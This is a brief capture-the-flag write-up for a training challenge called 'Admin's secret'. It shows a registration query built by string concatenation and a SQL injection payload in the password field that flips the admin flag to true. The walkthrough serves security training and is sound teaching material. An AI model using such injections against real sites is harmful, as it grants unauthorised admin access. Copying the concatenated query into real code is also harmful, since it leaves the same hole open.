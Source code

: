 # Admin's secret
[> *Challenge (500)*](https://training.olicyber.it/challenges#challenge-48)

## Solution
As the hint says we need to exploit the register form.

By looking at the register page we can see the SQL query:
```sql
INSERT INTO users(username,password,admin) VALUES ('" . $username . "','" . $password . "',false);
```
```sql
INSERT INTO users(username,password,admin) VALUES ('username', 'password', false);
```
The `admin` field is just a boolean so we can SQL Inject to make it true.
```bash
username = username1230x
password = mypass123',true); --
```
making our sql query:
```sql
INSERT INTO users(username,password,admin) VALUES ('username1230x','mypass123',true); -- ',false);
```

Then we just login and get the flag
